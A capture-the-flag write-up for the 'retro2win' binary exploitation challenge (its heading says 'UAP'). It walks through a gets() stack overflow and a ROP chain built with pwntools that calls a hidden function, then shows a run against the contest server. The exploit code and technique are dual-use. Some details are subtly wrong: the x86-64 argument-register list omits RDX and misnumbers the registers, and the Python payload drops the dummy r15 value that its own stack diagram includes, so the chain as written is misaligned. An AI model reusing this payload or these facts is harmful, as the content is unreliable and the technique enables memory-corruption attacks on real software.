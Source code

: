 # 1337UP 2024 - UAP

```bash
[*] '/home/ubuntu/pat/pwn-writeups/1337UP-2024/retro/retro2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

### Reverse Engineer Source

These were obtained with Ghidra after removing irrelevant bits and renaming/retyping.

```c
undefined8 main(void)
{
  int choice;
  
  do {
    while( true ) {
      while( true ) {
        show_main_menu();
        __isoc99_scanf(&DAT_00400c19,&choice);
        getchar();
        if (choice != 2) break;
        battle_dragon();
      }
      if (2 < choice) break;
      if (choice == 1) {
        explore_forest();
      }
      else {
LAB_0040093b:
        puts("Invalid choice! Please select a valid option.");
      }
    }
    if (choice == 3) {
      puts("Quitting game...");
      return 0;
    }
    if (choice != 0x539) goto LAB_0040093b;
    enter_cheatcode();        <-------------
  } while( true );
}
```

```c
void enter_cheatcode(void)

{
  char local_18 [16];
  
  puts("Enter your cheatcode:");
  gets(local_18);
  printf("Checking cheatcode: %s!\n",local_18);
  return;
}
```

```c
void cheat_mode(long param_1,long param_2)

{
  char *pcVar1;
  char local_58 [72];
  FILE *local_10;
  
  if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts("Error: Could not open flag.txt");
    }
    else {
      pcVar1 = fgets(local_58,0x40,local_10);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",local_58);
      }
      fclose(local_10);
    }
  }
  else {
    puts("Unauthorized access detected! Returning to main menu...\n");
  }
  return;
}
```

### Where to begin

Once you reverse, the exploit is pretty obvious. We need to reach enter_cheatcode() which has a buffer overflow, and land into cheat_mode() and access the flag. 

### Setup

To enter_cheatcode(), we have to select option 0x539 or 1337. This isn't given to us in the menu but reversing shows us this hidden path. Since there's no stack canary, it makes sense that our exploit is to take advantage of stack buffer overflow by overwriting instruction pointer to cheat_mode(). Now, the difficult part is that cheat_mode() will only show the flag if it satisfies this condition on it's inputted parameters:

```c
if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    ...
}
else {
  puts("Unauthorized access detected! Returning to main menu...\n");
}
```

We need to somehow "call" with these params: cheat_mode(0x2323232323232323, 0x4242424242424242) 

Before understanding this exploit, you should have a good understanding of x86_64 calling conventions (which are different to that of x86 / i386). As a high level overview: whenever you call a function, your first 6 arguments are passed in the registers RDI, RSI, RCX, R8, R9, respectively. The remaining arguments are passed onto the stack. So, we want to setup RDI = 0x2323232323232323 and RSI = 0x4242424242424242 before we enter cheat_mode().

To do this, we'll utilize an ROP chain. This is useful when you can overwrite saved instruction pointer but cannot directly execute arbitrary code. Use whatever tool to extract gadgets from your binary (I use ROPgadget) and I reccommend saving it to a file so you can reference it without having to rerun the gadget finder. 

Our target gadgets would be a pop rdi and pop rsi. These are popular gadgets to use when you want to write over a register to a desired value. Thankfully, pop instructions are widely available.

```bash
$ ROPgadget --binary retro2win > gadgets
$ cat gadgets | rg -E 'pop rdi|pop rsi'
0x00000000004009b3 : pop rdi ; ret
0x00000000004009b1 : pop rsi ; pop r15 ; ret
```

Perfect! Let's get to our exploit.

### Exploit

Let's start with entering cheat mode.

```python
r = process('./retro2win')
r.sendlineafter(b'Select an option:', b'1337')
```

Now that we're in enter_cheatcode(), we need to send in the payload. First, we need to reach the saved instruction pointer. As you can see in the source code of enter_cheatcode(), the size of the buffer is 16 bytes. After the buffer is the saved base pointer, then the saved instruction pointer.
```
pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
```

Now, let's setup our ROP chain in this order:
1. Set RDI = 0x2323232323232323
2. Set RSI = 0x4242424242424242
3. Return to cheat_mode()

Here's what that looks like:
```python
pop_rdi = 0x4009b3
pop_rsi_r15 = 0x4009b1
cheat_mode = 0x400736

pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
pay += p64(pop_rdi) + p64(0x2323232323232323)
pay += p64(pop_rsi_r15) + p64(0x4242424242424242)
pay += p64(cheat_mode)

r.sendline(pay)

Stack
+---------------+       +---------------+ 
|  ........     | ----> |  AAAAAAAA     |
|---------------|       |---------------|
|  saved rbp    |       |  BBBBBBBB     |
|---------------|       |---------------|
|  saved rip    |       |  pop_rdi      |
|---------------|       |---------------|
|               |       |  0x2323.....  |
|---------------|       |---------------|
|               |       |  pop_rsi_r15  |
|---------------|       |---------------|
|               |       |  0x4242.....  |
|---------------|       |---------------|
|               |       |  dummy_value  |
|---------------|       |---------------|
|               |       |  cheat_mode   |
|               |       |               |
+---------------+       +---------------+
```

Note, the only available pop rsi gadget also pops r15 after it. This is harmless since the value in r15 isn't relevant in calling cheat_mode(). We'll just put any value in it.

When we exit enter_cheatcode() it "returns" to pop rdi then pop rsi then cheat_mode(). Now we can pass the if statement condition and access the flag :).

```bash
➜  retro git:(main) ✗ python solve.py
[*] '/home/ubuntu/pat/pwn-writeups/1337UP-2024/retro/retro2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAAAAAAAAAA\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
```
